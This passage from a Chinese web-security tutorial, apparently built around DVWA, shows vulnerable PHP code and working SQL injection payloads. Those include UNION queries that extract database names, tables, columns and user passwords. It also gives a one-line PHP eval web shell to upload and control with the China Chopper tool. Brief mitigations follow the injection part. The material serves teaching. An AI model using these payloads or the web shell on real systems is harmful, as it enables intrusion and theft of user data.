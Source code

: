假如网站后端代码如下：
````
$id = $_REQUEST[ 'id' ];
"SELECT first_name, last_name FROM users WHERE user_id = '$id';";
````
即 将获得id参数值，组合成SQL语句进行查询，那么就存在SQL注入的风险。

1. 攻击者通过将 id 参数设置为 1'or'1'='1 。'或' 语法使得 WHERE 条件一直成立，结果能查询出users表的所有数据。
2. id 设置为 1' order by n # ，要求结果以表的第n个字段排序，则当n = 1,2,3...依次执行，出现报错时假设n=5，即说明该表只有4个字段。
3. 通过以下 sql 能挖掘出更多的数据库信息。 
````
查询数据库用户，版本信息:
1' union select 1,concat(database(),version(),user()) #

查询所有数据库名字:
1' union select 1,schema_name from information_schema.schemata #

查询数据库的表名，0x64767761十六进制转字符为 dvwa:
' union select 1,table_name from information_schema.tables where table_schema=0x64767761 #

查询表的字段，0x7573657273十六进制转字符为 users:
' union select 1,column_name from information_schema.columns where table_name=0x7573657273 #

查看表的内容:
' union select user,password from users #
````


**防范**
````
1. 通过 mysql_real_escape_string， 转义sql语句中的特殊字符。
2. 限制数据库用户操作权限。
````

## 8. 文件上传 

漏洞利用的三个**重要条件**：
````
1.可以上传木马文件。
2.文件能被执行。
3.上传文件的路径可知。
````
**利用步骤**
1. A网站允许上传任意文件，则构建如下**一句话脚本**，保存为 hack.php 上传到A网站。注意 apple 字符串，该字符串可任意设置。
````php
<?php
  eval($_POST['apple']);
?>
````
2. 假设已知A网站上传的文件都在/uploads/目录下，可通过A.com/uploads/hack.php访问该文件。
3. 打开 **中国菜刀** 软件，该软件被安全软件报病毒，谨慎使用。
4. 右键添加SHELL，填写 A.com/uploads/hack.php 及 apple 字符串(与hack.php保持一致)，点击添加。如下图：  

![caidao-add](https://user-images.githubusercontent.com/25051945/55289460-a1eaea00-53f9-11e9-998d-510c132c6bfe.jpg)  
